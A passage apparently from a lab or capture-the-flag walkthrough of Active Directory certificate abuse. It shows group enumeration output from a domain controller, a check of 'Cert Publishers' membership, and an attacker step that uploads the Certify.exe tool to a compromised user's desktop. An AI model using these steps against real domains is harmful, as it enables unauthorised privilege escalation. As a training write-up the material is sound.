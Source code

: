 ```
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*SQLServer2005SQLBrowserUser$DC01
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

`net localgroup "Cert Publishers"`:
```
Alias name     Cert Publishers
Comment        Members of this group are permitted to publish certificates to the directory

Members

-------------------------------------------------------------------------------
DC01$ ←
The command completed successfully.
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cp ~/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe ./certify.exe`

`upload ./certify.exe`:
```
Info: Uploading /home/kali/certify.exe to C:\Users\Raven\Desktop\certify.exe
                                        
Data: 238248 bytes of 238248 bytes copied
                                        
Info: Upload successful!
```
